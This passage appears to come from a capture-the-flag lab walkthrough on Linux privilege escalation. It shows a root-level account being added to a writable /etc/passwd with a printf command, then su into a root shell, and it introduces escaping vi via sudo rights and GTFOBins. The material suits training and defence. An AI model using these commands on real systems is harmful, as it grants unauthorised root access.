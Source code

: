 ~~~
user7@polobox:~$ printf 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash\n' >> /etc/passwd
user7@polobox:~$ cat /etc/passwd
~~~

## #6.6 - Now, use "su" to login as the "new" account, and then enter the password. If you've done everything correctly- you should be greeted by a root prompt! Congratulations!

*Hint: If you're having problems authenticating, check that you're escaping the '$'.*

~~~
user7@polobox:~$ su - new
Password: 
Welcome to Linux Lite 4.4
 
You are running in superuser mode, be very careful.
 
Thursday 14 May 2020, 16:56:26
Memory Usage: 321/983MB (32.66%)
Disk Usage: 6/217GB (3%)
 
root@polobox:~# whoami
root
root@polobox:~# 
~~~

# [Task 7] Escaping Vi Editor

## #7.0 - Instructions

**Sudo -l**

This exploit comes down to how effective our user account enumeration has been. Every time you have access to an account during a CTF scenario, you should use `sudo -l` to list what commands you're able to use as a super user on that account. Sometimes, like this, you'll find that you're able to run certain commands as a root user without the root password. This can enable you to escalate privileges.

**Escaping Vi**

Running this command on the "user8" account shows us that this user can run vi with root privileges. This will allow us to escape vim in order to escalate privileges and get a shell as the root user!

**Misconfigured Binaries and GTFOBins**

If you find a misconfigured binary during your enumeration, or when you check what binaries a user account you have access to can access, a good place to look up how to exploit them is GTFOBins. GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions. It provides a really useful breakdown of how to exploit a misconfigured binary and is the first place you should look if you find one on a CTF or Pentest.
